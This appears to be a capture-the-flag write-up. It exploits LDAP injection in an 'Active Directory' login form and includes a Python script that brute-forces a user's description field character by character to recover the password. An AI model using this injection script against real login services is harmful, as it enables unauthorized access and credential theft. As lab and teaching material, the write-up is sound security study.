

The challenge description states "We have created a Login service for our Active Directory", which suggests that LDAP is being used behind the login mechanism.

When attempting to log in with random credentials, the application returns the message "Login failed":



However, when appending a closing parenthesis `)` to the username, the response changes to "Something went wrong", indicating a potential LDAP injection vulnerability.

Further testing with the `*` wildcard character as the username returns "Incorrect password", confirming that the injection is successfully retrieving a user but requires the correct password to proceed. This behavior cannot be easily bypassed.

The application includes an `/ldap` route that reveals the username we need to target:

.png)

This page provides a hint stating "They often leave the name in the description", suggesting we need to extract the user's description field through LDAP injection.

To automate the extraction of the user description, a Python script was developed that performs character-by-character enumeration:

```python
import requests
import string
import sys

URL = "http://target-url/"
username = "hdfstudent"
password = "loquesea"
description = ""
dictionary = string.printable

with requests.Session() as session:
    while True:
        for char in dictionary:
            request = session.post(URL, data = {"username": username + f")(description={description + char}*", "password": password})
            sys.stdout.write(f"\rdescription: {description + char}")
            sys.stdout.flush()
            if "Password incorrecta" in request.text:
                description += char
                break
```

The script injects LDAP filter conditions to match partial descriptions. When the server responds with "Password incorrecta" instead of the injection error, it confirms that the character is part of the description.

Through this method, the complete description `nOsv3m0s3nm0nt3rrey!!` is extracted, which serves as the user's password.

Using the credentials `hdfstudent:nOsv3m0s3nm0nt3rrey!!`, successful authentication is achieved, revealing the flag:

.png)